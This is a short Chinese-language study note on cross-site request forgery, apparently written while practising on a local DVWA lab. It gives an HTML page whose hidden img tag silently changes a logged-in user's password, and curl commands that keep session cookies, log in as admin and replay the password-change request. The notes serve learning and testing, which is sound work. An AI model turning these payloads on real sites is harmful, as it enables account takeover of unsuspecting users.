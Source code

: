 # CSRF

### 成立條件至少有兩個:

1. 攻擊對象已經登入過原本的服務，在不需要重新驗證的情況下，從其他網域或地方也能存取服務
2. 服務本身有透過連結觸發某些能被你利用功能 (e.g 改密碼, 轉帳)

## GET

### by <img/> tag
假如使用者未登出服務，瀏覽器在別處載入此頁面時，他的密碼就會被改成 `1111`

```
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>csrf by GET</title>
</head>
<body>
set password to: 1111
  <img 
    src="http://localhost:8086/vulnerabilities/csrf/?password_new=1111&password_conf=1111&Change=Change"
  >
</ body>
</html>
```

## cURL snippets

### curl 存取 cookie
因為 HTTP 是 stateless，所以要用 curl 模擬 user 行為 (持有 session id in cookie) 必須將 cookie 存在本地，下次使用時就可以直接讀取
```
curl -v -c cookies.txt -b cookies.txt host.com/registrations/register/
curl -v -c cookies.txt -b cookies.txt -d "email=user@site.com&a=1&csrfmiddlewaretoken=<token from cookies.txt>" host.com/registrations/register/
```
```
curl -v "http://localhost:8086" -c cookies.txt -b cookies.txt
```

### 試著用 curl 模擬 CSRF 的過程

登入
```
curl -v -L -c cookies.txt -b cookies.txt -X POST "http://localhost:8086/login.php" --data-raw 'username=admin&password=123&Login=Login&user_token=bc27fbf9cc617adb1c1b3f44f9fd1b62'
```

中招，被改密碼
```
curl -v -c cookies.txt -b cookies.txt "http://localhost:8086/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change#"
```
